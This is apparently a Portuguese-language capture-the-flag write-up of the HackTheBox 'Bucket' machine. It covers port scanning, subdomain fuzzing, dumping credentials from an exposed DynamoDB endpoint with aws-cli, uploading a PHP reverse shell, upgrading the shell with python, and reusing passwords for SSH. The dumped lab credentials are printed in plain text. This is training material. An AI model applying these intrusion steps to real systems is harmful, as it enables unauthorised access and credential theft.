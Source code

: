 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Bucket - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/Y1obslX.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
awscli
curl
wfuzz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/4%OT=22%CT=1%CU=36786%PV=Y%DS=2%DC=T%G=Y%TM=5FF34D45
OS:%P=i686-pc-windows-windows)SEQ(SP=FD%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DS
OS:T11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 41.328 days (since Tue Nov 24 06:23:01 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   190.00 ms 10.10.14.1
2   192.00 ms bucket.htb (10.10.10.212)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao acessar a porta 80, somos redirecionados para o dominio: bucket.htb
Portanto, vamos adiciona-lo no arquivo de hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 'bucket.htb  10.10.10.212' >> /etc/hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Após isso conseguimos acessar a página web, após alguns testes, não foi possível encontrar outros diretórios e arquivos.

![Image](https://i.imgur.com/Wsd50kp.png)

Ao analisar o código fonte, podemos ver que possuimos um subdomain (s3):
![Image](https://i.imgur.com/tXc0CNj.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos tentar encontrar diretorios nele com o wfuzz:
![Image](https://i.imgur.com/VppmJzb.png)

Podemos encontrar 2 diretórios:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
health
shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao acessar o diretório shell, podemos perceber o serviço 'DynamoDB'.
![Image](https://i.imgur.com/RXhjaJf.png)


Para interagir com esse serviço, vamos utilizar a tool da própria AWS, conhecida como aws-cli

Após algumas horas lendo documentações, finalmente temos o comando correto para interagir:

![Image](https://i.imgur.com/Kiz6WsO.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

e b00m, temos o nome da tabela que está rodando lá :D
Vamos ver se conseguimos credenciais;


![Image](https://i.imgur.com/P3J8y29.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Temos credenciais :D
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Mgmt:Management@#1@#
Cloudadm:Welcome123!
Sysadm:n2vM-<_K_Q:.Aa2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Ao tentar valida-las via SSH, nenhum login foi possível

Listando os arquivos:

![Image](https://i.imgur.com/updbyQp.png)

Após isso, tentamos fazer o upload de uma reverse shell para o servidor.
No nosso caso vamos utilizar a [shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) do 'Pentest Monkeys' 

![Image](https://i.imgur.com/VLLIuAS.png)

w00t temos uma shell como www-data, vamos tentar melhorar nossa shell com python

![Image](https://i.imgur.com/24FbvOg.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c 'import pty;pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, temos uma shell interativa e encontramos um novo usuário chamado 'Roy'
Portanto podemos testar as senhas já obtidas previamente para este usuário.

ee entãoo:

![Image](https://i.imgur.com/me6RqLL.png)

Agora vamos melhorar nossa shell logando via SSH com o usuário 'Roy'
![Image](https://i.imgur.com/0q73Xnv.png)

